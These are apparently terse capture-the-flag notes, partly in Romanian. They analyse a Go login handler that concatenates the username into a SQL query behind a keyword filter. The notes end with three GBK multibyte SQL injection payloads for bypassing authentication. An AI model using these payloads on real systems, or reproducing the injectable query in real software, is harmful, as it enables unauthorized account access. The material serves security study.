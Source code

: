 ![[Pasted image 20231208152656.png]]
Returneaza `Malicious input detected`
![[Pasted image 20231208152755.png]]
`Jester 0.6.0` ?

## Vuln?
```go
row := db.QueryRow("SELECT * FROM users WHERE username='" + user.Username + "';")
```
Verificarea la injection
```min
if containsSqlInjection(username) or containsSqlInjection(password):
      resp msgjson("Malicious input detected")
```

GBK Authentication Bypass


%A8%27 OR 1=1;-- 2
%8C%A8%27 OR 1=1-- 2
%bf' or 1=1 -- --
